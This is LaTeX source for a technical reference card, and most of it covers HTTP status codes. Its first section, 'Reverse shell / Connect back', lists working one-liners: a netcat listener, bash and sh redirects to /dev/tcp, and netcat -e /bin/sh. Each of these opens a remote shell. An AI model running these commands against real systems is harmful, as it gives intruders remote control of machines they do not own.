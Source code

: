 \documentclass{refcard}
\begin{document}
\subsection{Reverse shell / Connect back}

\begin{ldesc}
	 client\$ netcat -vlp 1337
	     \$ sh >\& /dev/tcp/client/1337 0>\&1
	\li[\ \ (colored)]       \$ bash -i >\& /dev/tcp/client/1337 0>\&1
	    \$ netcat -e /bin/sh localhost 1337
	\li[\ \ (colored)]       \$ nc -e "/bin/bash -i" localhost 1337
\end{ldesc}

\subsection{HTTP Status Codes}

\begin{tabular}{l@{ }l}
	\li[1xx] Informational
	\li[100] Continue
	\\
	\li[2xx] Success
	\li[200] OK
	\li[201] Created
	\li[202] Accepted
	\li[204] No Content
	\li[206] Partial Content
	\\
	\li[3xx] Redirection
	\li[300] Multiple Choices
	\li[301] Moved Permanently
	\li[302] Found
	\li[303] See Other
	\li[304] Not Modified
\end{tabular}
\begin{tabular}{l@{ }l}
	\li[4xx] Client Errors
	\li[400] Bad Request
	\li[401] Unauthorized
	\li[403] Forbidden
	\li[404] Not Found
	\li[405] Method Not Allowed
	\li[406] Not Acceptable
	\li[409] Conflict
	\li[413] Payload Too Large
	\li[422] Unprocessable Entity
	\li[429] Too Many Requests
	\\
	\li[5xx] Server errors
	\li[500] Internal Server Error
	\li[502] Bad Gateway
	\li[504] Gateway Timeout
\end{tabular}

\pagebreak

\section{Keyboard Scan Codes (US QWERTY)}


\newcommand{\ppkey}{\textbackslash{} \textbar}
\end{document}

